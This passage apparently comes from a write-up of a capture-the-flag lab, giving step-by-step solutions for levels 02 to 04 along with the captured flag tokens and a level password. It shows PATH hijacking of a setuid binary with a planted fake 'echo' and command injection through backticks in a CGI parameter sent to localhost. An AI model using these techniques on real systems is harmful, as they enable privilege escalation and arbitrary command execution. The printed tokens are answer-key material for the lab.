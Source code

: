 	su flag02
	ft_wandrNDRelL0L
	getflag

> Check flag.Here is your token : `kooda2puivaav1idi4f57q8iq`

## level03

home directory has an exec level03.
when I run it I get: 'Exploit me!'
My first thought was to hexdump the file. 
It's possible to get binary:

	xxd -b file

hex:

	xxd file

or hexdump:

	hexdump -C yourfile (hd is alias for hexdump -C) 

I also found I could use ltrace/strace to show captured library calls and signals.

Inside I found:
> system("/usr/bin/env echo Exploit me"Exploit me

Making my own echo file

	chmod 777 .
	echo 'getflag' > echo
	chmod +x echo

and adding to PATH before the original echo

	cp echo /tmp
	export PATH=/tmp:$PATH
	./level03

> Check flag.Here is your token : `qi0maab88jeaj46qoumi7maus`

## level04

home dir has a perl file level04.pl

inside I see:
> localhost:4747

use CGI qw{param}; // CGI is Common Gateway Interface, a webserver for script exchange.
Inside I see it can take a parameter 'x'
so I can run:

	curl localhost:4747?x=`getflag`

> Check flag.Here is your token : `ne2searoevaevoem4ov4ar8ap`

## level05
